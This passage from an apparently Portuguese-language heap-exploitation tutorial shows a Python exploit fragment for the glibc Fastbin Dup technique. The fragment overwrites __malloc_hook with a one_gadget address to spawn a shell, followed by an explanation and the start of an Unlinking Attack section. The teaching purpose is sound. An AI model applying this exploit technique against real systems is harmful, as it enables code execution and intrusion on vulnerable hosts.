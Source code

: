 ```py

# requisitando o chunk A com "fd" para "malloc hook"
malloc(0x68, b"A")

# sobrescrevendo "malloc hook"
malloc(0x68, b"A"*19 + p64(libc.address + 0xe1fa1))

# ativando o gadget
malloc(1, b"")

#=========================================#
```
Agora podemos executar o script, em condições de produção, sem atrelá-lo ao GDB.

![Shell obtido](/img/papers/heap_p1/paper_heap1_148.png)

E como podemos observer, conseguimos invocar um `shell`.

> Em resumo, abusamos da vulnerabilidade de *double free* para invocarmos a técnica `Fastbin Dup`, do qual utilizamos para fazer um link com um *chunk* falso sobrescrevendo a `malloc hook` na *fastbin* de `0x70` bytes.  
> Conseguimos alocar este *chunk* falso utilizando metadados da própria GLIBC como *size field*. E como a malloc não checa o alinhamento do endereço, muito menos as *flags*, não houve problemas em alocar este *chunk*.  
> Então escrevemos o endereço do *gadget* que chama o `shell` sobre a `malloc hook`.  
> E finalmente ativamos a `malloc()` que foi redirecionada via `malloc hook` para o *gadget* nos dando um `shell`.

A `Fastbin Dup` pode ser utilizada nas GLIBCs de versão menor ou igual a `2.31`.

# Unlinking Attack

Esta é provavelmente uma das técnicas mais complexas da exploração da *heap*, da qual exigirá um conhecimento um pouco mais profundo da estrutura de uma `arena`. Para tanto, antes de iniciarmos a exploração, vamos nos aprofundar nesta estrutura.

## Unlinking
